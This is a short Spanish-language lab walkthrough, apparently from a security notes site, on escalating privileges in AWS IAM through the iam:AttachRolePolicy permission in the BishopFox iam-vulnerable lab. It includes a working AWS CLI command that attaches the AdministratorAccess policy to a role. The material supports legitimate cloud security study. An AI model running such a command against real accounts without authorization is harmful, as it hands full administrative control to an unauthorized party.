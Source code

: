 Un atacante con el permiso **iam:AttachRolePolicy** puede aumentar los privilegios adjuntando una política a una función a la que tiene acceso, agregando los permisos de esa política al atacante.

### Configuración inicial

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc9
{% endembed %}

Usuario del laboratorio: privesc9-AttachRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (21) (2).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.

### Explotación

Parecida a la explotación de Attach User Policy, se tiene que saber el nombre del rol al cual se le va añadir una política, esto se hace con el siguiente comando:

{% code overflow="wrap" %}
```
aws iam attach-role-policy --role-name privesc9-AttachRolePolicy-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc9
```
{% endcode %}
